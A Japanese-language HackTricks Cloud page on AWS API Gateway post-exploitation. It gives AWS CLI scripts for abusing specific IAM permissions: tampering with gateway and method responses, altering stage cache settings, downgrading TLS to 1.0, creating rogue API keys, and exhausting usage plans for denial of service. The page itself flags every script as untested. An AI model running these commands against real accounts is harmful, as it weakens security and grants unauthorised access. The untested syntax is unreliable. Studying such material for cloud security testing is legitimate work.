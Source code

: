 # AWS - API Gateway ポストエクスプロイト

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

## API Gateway

詳細については以下をチェックしてください:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 非公開APIへのアクセス

[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:)でエンドポイントを作成し、サービスcom.amazonaws.us-east-1.execute-apiを公開し、アクセス可能なネットワーク（EC2マシン経由で可能性がある）にエンドポイントを公開し、すべての接続を許可するセキュリティグループを割り当てます。\
その後、EC2マシンからエンドポイントにアクセスし、以前に公開されていなかったゲートウェイAPIを呼び出すことができます。

### 使用プランDoS

**列挙**セクションでは、キーの**使用プランを取得する方法**を確認できます。キーを持っていて、**月にX回の使用に**限定されている場合、**ただ使用してDoSを引き起こす**ことができます。

**APIキー**は、**`x-api-key`**と呼ばれる**HTTPヘッダー**内に**含まれる**必要があります。

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

`apigateway:UpdateGatewayResponse`と`apigateway:CreateDeployment`の権限を持つ攻撃者は、**既存のゲートウェイレスポンスを変更して、機密情報を漏洩させたり、悪意のあるスクリプトを実行するカスタムヘッダーやレスポンステンプレートを含めることができます**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在的な影響**: 機密情報の漏洩、悪意のあるスクリプトの実行、またはAPIリソースへの不正アクセス。

{% hint style="info" %}
テストが必要です
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage` と `apigateway:CreateDeployment` の権限を持つ攻撃者は、**既存のAPI Gatewayステージを変更してトラフィックを異なるステージにリダイレクトしたり、キャッシュ設定を変更してキャッシュされたデータへの不正アクセスを得ることができます**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的影響**: キャッシュされたデータへの不正アクセス、APIトラフィックの妨害または傍受。

{% hint style="info" %}
テストが必要です
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

攻撃者が`apigateway:PutMethodResponse`と`apigateway:CreateDeployment`の権限を持っている場合、**既存のAPI Gateway REST APIメソッドのメソッドレスポンスを変更して、機密情報を漏洩させたり、悪意のあるスクリプトを実行するカスタムヘッダーやレスポンステンプレートを含めることができます**。
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在的な影響**: 機密情報の漏洩、悪意のあるスクリプトの実行、またはAPIリソースへの不正アクセス。

{% hint style="info" %}
テストが必要です
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi` と `apigateway:CreateDeployment` の権限を持つ攻撃者は、**API Gateway REST APIの設定を変更してログ記録を無効にしたり、最小TLSバージョンを変更することで、APIのセキュリティを潜在的に弱めることができます**。
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在的な影響**: APIのセキュリティが弱まり、不正アクセスが可能になるか、または機密情報が露出する可能性があります。

{% hint style="info" %}
テストが必要です
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

権限 `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey` を持つ攻撃者は、**新しいAPIキーを作成し、それらを使用プランに関連付け、これらのキーを使用してAPIへの不正アクセスを行うことができます**。
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**潜在的な影響**: APIリソースへの不正アクセス、セキュリティコントロールのバイパス。

{% hint style="info" %}
テストが必要です
{% endhint %}

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェックしてください！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手してください。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックしてください。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローしてください。**
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有してください。**

</details>
